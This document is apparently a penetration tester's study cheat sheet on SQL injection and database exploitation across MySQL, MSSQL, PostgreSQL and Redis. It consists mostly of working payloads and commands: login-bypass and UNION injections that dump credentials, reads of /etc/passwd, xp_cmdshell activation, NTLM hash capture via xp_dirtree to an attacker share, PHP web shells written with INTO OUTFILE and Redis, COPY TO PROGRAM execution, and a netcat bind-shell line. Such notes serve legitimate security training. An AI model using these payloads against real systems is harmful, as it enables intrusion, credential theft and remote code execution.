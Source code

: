 ```yaml
---
title: SQL Injection
---
```

# MySql
- Check if we can log in to a DB instance
```zsh
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```
## Queries
- Version: `select version();` or `select @@version` - both are supported
- DB System User: `select system_user();`
- Databases: `show databases;`
## Comments
- Common ways to comment in MySQL `--`, `#` and `/* */`
```sql
SELECT 1+1;     # This comment continues to the end of line

SELECT 1+1;     -- This comment continues to the end of line

SELECT 1 /* this is an in-line comment */ + 1;

SELECT 1+
/*
this is a
multiple-line comment
*/
1;
```
- For more check [PayloadAllTheThings - MySQL Comments](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-comments)
# MSSQL
- Use `impacket-mssqlclient` to interact
```zsh
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth 
```
- We can supply `--port` in case MSSQL is not running on default 1433
- The username can also be in form `domain/user:password@ip` in case of domain authentication

## Queries
- Version: `SELECT @@version;`
- Databases: `SELECT name FROM sys.databases;`
- Tables: `SELECT * FROM {DBNAME}.information_schema.tables;`
- To then query records within those tables, we need to use the following structure: `SELECT * FROM {DBNAME}.{TABLE_SCHEMA}.{TABLE_NAME};` (e.g `select * from offsec.dbo.users;`)
- We might be able to capture NTLM hashes with MSSQL which could then be used in conjunction with NTLM passing or relaying as described in [[Password Attacks]]

```sql
#Enumerate if our current user has the right permissions
Use master;
EXEC sp_helprotect 'xp_dirtree';
EXEC sp_helprotect 'xp_subdirs';
EXEC sp_helprotect 'xp_fileexist';

#Trigger an authentication to our share with one of the commands
EXEC xp_dirtree '\\192.168.45.178\alexa'
```
## Comments
- The common ways to to comment in MSSQL are `--` and `/* */`
- For more check [PayloadAllTheThings - MSSQL Comments](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-comments)

# Manual Injection
- Identify by trying to trigger an error while escaping the query
- Try to understand how the original query was shaped (e.g `SELECT` or `INSER` statement)
- Try to then craft a valid statement
```sql
admin' OR 1=1 -- //

' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
- Adding two slashes at the end of the comment provides visibility on our payload and also adds some protection against any kind of whitespace truncation the web application might employ.
### UNION Based SQLi
- For UNION Based SQLi to work, two conditions need to be fulfilled
	1. The injected UNION query has to include the same number of columns as the original query.
	2. The data types need to be compatible between each column.
- We can enumerate the number of columns used in the original statement by using `' ORDER BY 1-- //` . Increase the column-number to order by until we reach an error. 
- If we know the number of columns, we can add our `UNION SELECT` statement
```sql
' UNION SELECT database(), user(), @@version, null, null -- //
```
- Using the first column for strings often fails as the first column in the original statement is the ID filed which is an integer. Condition number 2: The data types need to be compatible between each column.
- Once we have a working query going, we can keep enumerating for other Tables.
```sql
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
- If we do not have enough columns to output our results or only certain columns have visual output, we can group with `group_concat(username,':',password,':',name)`
```sql
`username='union select 1,group_concat(username,':',password,':',name),3,4,5 from users-- -&password=idontknow`
```
- We might also be able to read files 
```sql 
UNION ALL SELECT LOAD_FILE('/etc/passwd') -- //
UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
```
## Blind SQL Injections
- Try to see how the web application behaves based on the nature of the statement
```zsh
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```
- The above will only return true if the user offsec is present. Otherwise false
- If we do not get an error message, we can try using time as an indicator
```zsh
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
## Manual Code Execution
- Depending on the configuration and the database system we might be able to execute code directly
### MSSQL
- In MSSQL the `xp_cmdshell` function can be used.
```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```
- We can run `EXECUTE sp_configure;` to list the current configuration
- Another option is to write output to a file on the system which we could then call
### MySQL
- In MySQL the `SELECT INTO_OUTFILE` ca be abused
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

### PostgreSQL 
- Basic information and enumeration (and more ofc) can be found on [Hacktricks - Pentesting Postgresql](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html)
- Installations running Postgres 9.3 and above have functionality which allows for the superuser and users with '`pg_execute_server_program`' to pipe to and from an external program using `COPY`.
- To list the roles of our current user we can use the `\du` command.
```sql
COPY (SELECT '') to PROGRAM 'ping -c 4 192.168.45.231';

CREATE TABLE alexa(output text);
COPY alexa FROM PROGRAM 'ping -c 4 192.168.45.231';
```
- We can read files with `pg_read_binary_file` or `pg_read_file`
```sql
select * from pg_read_binary_file('/etc/passwd');
select * from pg_read_file('/etc/passwd', 0, 1000000);
```
- We can also try to write a file using `COPY`
```sql
COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
```
- To list directories we can use `pg_ls_dir`
```sql
select * from pg_ls_dir('/tmp');
```
# Redis
- Not an SQL Injection but if we find redis in Version 4.x/5.x we may be able to execute code or write files
- Detailed infos on [Hacktricks - Pentesting Redis](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html)
- Default location for redis configuration file is `/etc/redis/redis.conf`, the service file can be found in `/etc/systemd/system/redis.service`
- Writing a file can be achieved as follows, make sure that the directory is writeable
```zsh
AUTH mysuperpassword #In case authentication is needs, credentials can be found in /etc/passwd
config set dir /var/www/html
config set dbfilename redis.php
set test "<?php system($_GET['cmd']);?>"
save
```
- We might also be able to load a malicious module ([n0b0dyCN on Github](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)) to redis which allows us to execute code. This module will need to be transferred to the host first
```zsh
MODULE LOAD /path/to/mymodule.so
system.exec "id"
```